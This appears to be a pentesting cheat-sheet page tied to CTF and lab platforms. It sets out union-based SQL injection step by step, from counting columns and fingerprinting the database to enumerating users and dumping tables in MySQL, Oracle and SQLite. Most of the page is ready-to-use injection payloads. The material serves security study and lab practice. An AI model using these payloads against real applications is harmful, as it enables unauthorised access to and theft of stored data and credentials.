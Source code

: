 # Union-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![marketplace](../../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
[![sql_injection_numeric](../../../../../_badges/rootme/web_server/sql_injection_numeric.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)
[![sqli_oracle_version](../../../../../_badges/ps/sqli_oracle_version.svg)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
[![sqli_oracle_dump](../../../../../_badges/ps/sqli_oracle_dump.svg)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
[![sqli_mysql_version](../../../../../_badges/ps/sqli_mysql_version.svg)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
[![sqli_union_column_count](../../../../../_badges/ps/sqli_union_column_count.svg)](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
[![sqli_union_column_type](../../../../../_badges/ps/sqli_union_column_type.svg)](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

<div class="row row-cols-lg-2"><div>

Union-based refer to using the UNION clause in the injected SQL to concatenate illegally fetched records to the usual results.

For instance, given a request returning the list of products, we could append to it the list of users and their passwords.

🙌 When injecting an union payloads, you usually only want to see the union results. Simply use a search query with no results.
</div><div>

⚠️ It can only be achieved both queries have the **same number of attributes+type** in the SELECT <small>(as per the property of the UNION clause)</small>.

```sql!
SELECT 1 UNION SELECT 1;          -- ok
SELECT 1, 2 UNION SELECT 1;       -- not ok
SELECT 1, 2 UNION SELECT 1, "2";  -- not ok (on a table)
SELECT 1, 2 UNION SELECT 1, NULL; -- ok
```
</div></div>

<hr class="sep-both">

## Manual Union-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)

<div class="row row-cols-lg-2"><div>

#### Number of columns selected

The first step is to find how many columns there are in the SELECT. There are two popular ways, using `UNION` or `ORDER BY`.

Even if SQL errors are not displayed, if the results is "unexpected" <small>(ex: no results)</small>, we know that the request failed.

<details class="details-n">
<summary>Method 1: <code>UNION SELECT</code></summary>

```sql!
UNION SELECT NULL -- fail
UNION SELECT NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL, NULL -- OK
```
</details>

<details class="details-n">
<summary>Method 2: <code>ORDER BY</code></summary>

`ORDER BY` can take a number representing the $nth$ argument in the select. If you use an invalid $n$, then the request fails.

```sql!
ORDER BY 1 -- fail
ORDER BY 2 -- fail
ORDER BY 3 -- fail
ORDER BY 4 -- OK
```
</details>

In the example, we have 4 parameters.

<br>

#### Find the type of each column

The UNION will fails if a column in the first select has a different type in the second select. You should check the type of each column, by using `UNION SELECT` with value others than NULL.

```sql!
UNION SELECT 1, NULL, NULL, NULL -- KO
UNION SELECT "1", NULL, NULL, NULL -- OK
UNION SELECT "1", "1", NULL, NULL -- OK
...
```

<br>

#### Find which columns are displayed

Simply replace every `NULL` with a value, such as increasing numbers. If a value is not displayed, then skip it and work on other attributes.
</div><div>

#### Find the DBMS used

The second objective is to find the DBMS, and its version, just to ensure that any following query is valid in the DBMS language.

```sql!
UNION SELECT @@version, NULL, NULL, NULL
UNION SELECT sqlite_version(), NULL, NULL, NULL
UNION SELECT VERSION(), NULL, NULL, NULL
UNION SELECT (SELECT banner FROM v$version), NULL, NULL, NULL
-- see also: DMBS-specific functions, etc.
...
```

👉 You can fetch the user too with `user()` or enumerate users:

```sql!
UNION SELECT group_concat(user), NULL, NULL, NULL from mysql.user
```

<br>

#### Extract data

To extract data, you need to find the **database**, the **table**, and the **columns**. It's an extensive operation.

<details class="details-n">
<summary>MariaDB/MySQL/PostgreSQL</summary>

```sql!
-- list databases, mostly unused as we use the current database
UNION SELECT SCHEMA_NAME, NULL, NULL, NULL FROM INFORMATION_SCHEMA.SCHEMATA
-- current database
UNION SELECT database(), NULL, NULL, NULL
-- table given 'database'
UNION SELECT group_concat(table_name), NULL, NULL, NULL FROM information_schema.tables WHERE TABLE_SCHEMA='database_name'
-- columns given 'table' and 'database'
UNION SELECT group_concat(column_name), NULL, NULL, NULL FROM information_schema.columns WHERE TABLE_SCHEMA='database_name' AND TABLE_NAME='table_name'
-- dump
UNION SELECT group_concat(col1,":",col2 SEPARATOR '<br>'), NULL, NULL, NULL FROM database_name.table_name
```
</details>

<details class="details-n">
<summary>Oracle</summary>

You can use:

```sql!
union select table_name FROM all_tables
union select column_name FROM all_tab_columns where table_name='a_table'
```
</details>

<details class="details-n">
<summary>SQLite</summary>

```sql!
-- table
UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
-- columns given table
UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='<a table>'
-- dump
UNION SELECT group_concat(col1 || ":" || col2, '<br>'), NULL, NULL, NULL FROM table_name
```
</details>
</div></div>